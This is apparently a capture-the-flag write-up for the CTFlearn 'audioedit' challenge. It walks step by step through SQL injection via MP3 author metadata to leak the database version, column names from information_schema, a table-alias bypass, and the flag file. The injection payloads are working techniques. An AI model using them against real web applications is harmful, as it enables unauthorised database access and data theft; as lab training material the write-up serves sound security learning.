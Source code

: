 This challenge is a classic example of a **SQL Injection (SQLi)** vulnerability, specifically within an MP3 metadata editor. The goal is to exploit the web application's input fields to extract information and ultimately find the flag.

## Step 1: Analyzing the Application

The challenge is a web application located at `http://web.ctflearn.com/audioedit/`. The application appears to allow users to edit MP3 file metadata. From a hint, we learn that a user's MP3 file is being processed, and its metadata (`author` and `title`) is being inserted into a database.

The SQL `INSERT` statement likely looks something like this:

`INSERT INTO audioedit (..., author, title, ...) VALUES (..., '[author_input]', '[title_input]', ...);`

Our goal is to manipulate the `author` and `title` fields to execute our own SQL queries.

## Step 2: Injecting the SQL Query

We need to create a crafted MP3 file to inject our malicious query. We can use a tool like `easyTAG` to modify the metadata fields. The injection must be carefully crafted to break out of the string literal and execute a new query, while still maintaining valid SQL syntax.

The challenge states that the first and last characters of our input are truncated, which is a crucial detail. The provided hint is a good starting point.

- **Author Field:** `a', (SELECT @@version))-- -b`
- **Title Field:** `""` (empty)

The resulting SQL statement becomes:

`INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);`

The single quote `'` in our input closes the first string literal. The `(SELECT @@version)` is our payload, which will retrieve the database version. The `-- -b` comments out the rest of the original query, preventing a syntax error.

By submitting this, we discover the database version: `5.5.49-0ubuntu0.14.04.1`.

## Step 3: Extracting Database Information

Now that we know we can inject, we can use a similar process to find the database name, column names, and finally, the flag.

### A. Finding the Database Name

- **Author Field:** `a', (SELECT database()))-- -b`

This query returns the name of the current database: `audioedit`.

### B. Finding the Column Names

To find the column names, we query the `information_schema.columns` table, which holds metadata about all tables in the database.

- **Author Field:** `a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a`

We can iterate through the values of `x` from `0` to `3` to find the column names:

- `x=0`: `id`
- `x=1`: `file`
- `x=2`: `author`
- `x=3`: `title`

### C. Extracting the Flag

After trying to select from the `audioedit` table, we get an insertion error. This is a common defense mechanism in SQL, as you cannot read from a table that you are currently writing to in the same statement.

The solution is to use a table alias, a trick to bypass this restriction.

- **Author Field:** `a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a`
- **Result:** `ABCTF`
- **Author Field:** `a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a`
- **Result:** `flag`
- **Author Field:** `a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a`
- **Result:** `supersecretflagf1le.mp3`

The flag is located in a file named `supersecretflagf1le.mp3`.

## Step 4: Final Exploitation

Now that we have the name of the flag file, we can simply construct a URL to access it. The application likely has a separate script to serve the files, often with a `GET` parameter.

The final exploited URL is: `https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3`

Visiting this URL reveals the file and the flag within.

## Step 5: The Flag

The flag is:

**`ABCTF{m3t4_inj3cti00n}`**